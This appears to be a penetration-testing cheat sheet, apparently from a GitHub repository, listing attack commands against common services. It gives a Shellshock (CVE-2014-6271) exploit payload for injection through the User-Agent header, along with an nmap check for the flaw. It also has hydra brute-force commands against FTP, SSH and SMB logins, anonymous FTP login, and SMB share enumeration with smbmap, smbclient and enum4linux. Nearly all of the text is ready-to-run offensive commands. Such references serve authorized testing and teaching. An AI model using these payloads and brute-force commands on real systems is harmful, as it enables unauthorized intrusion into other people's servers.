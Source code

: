 ## Shellshock (CVE-2014-6271)
usually exploit apache with cgi functionalities
```bash
nmap -sV $IP --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```

injection in user-agent http header.

`() { :; }; echo; echo; /bin/bash -c 'whoami'`

## FTP (File Transfert Protocol) - PORT 21
Try anonymous as username (leave password blank.)
```bash
ftp $IP
```
or

```bash
nmap -sV $IP --script=ftp-anon
```

Brute-force

```bash
hydra -L wordlist.txt -P passwdlist.txt $IP -t 4 ftp
```

## SSH (Secure Shell) - port 22

Brute-force attack for username-password authentication

```bash
hydra -L wordlist.txt -P passwdlist.txt $IP -t 4 ssh
```

## SAMBA - PORT 445 ( Netbios 139)
bruteforce with hydra for initial foothold.
```bash
hydra -L wordlist1 -P wordlist2 $IP smb
```
### enumerating the samba share
```bash
smbmap -H $IP -u admin -p password1
``` 
```bash
smbclient -L $IP -U admin 
```
```bash
enum4linux -a $IP 
```
### connect to share
```bash
smbclient //$IP/shareName -U admin 
```